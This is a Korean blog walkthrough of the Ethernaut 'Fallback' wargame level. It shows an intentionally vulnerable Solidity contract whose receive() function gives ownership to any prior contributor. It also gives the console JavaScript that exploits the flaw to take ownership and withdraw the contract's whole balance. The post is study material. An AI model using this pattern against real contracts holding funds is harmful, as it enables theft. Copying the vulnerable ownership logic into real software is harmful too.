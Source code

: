 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 공부) 1. Fallback 
date: '2022-01-02 01:11:00'
author: 한성원
tags: ethernauts fallback vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallback
__Difficulty 1/10__

직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.

![fallback finish](./fallback_finish.png)

- - -
## 마무리
얼마전에 공부했던 king of Ether(DOS with unexpected revert)가 생각난다. revert를 통해 하는 ownership을 가져오는건 아니었지만 비슷한 점이 많은 것 같았다. smart contract을 짤때 logic은 괜찮아보여도 우리가 생각하지 못한 허점이 있을 수 있다! 항상 조심하고 또 조심하자!
나중에는 보안감사(auditing)도 배워 내의 smart contract를 audit 할 수 있었으면 좋겠다! ~~이거로 취업 해야지ㅎ~~

고작 1단계를 완료한 것이지만 게임을 통해 배우니 더 재밌는 것 같다. 앞으로도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```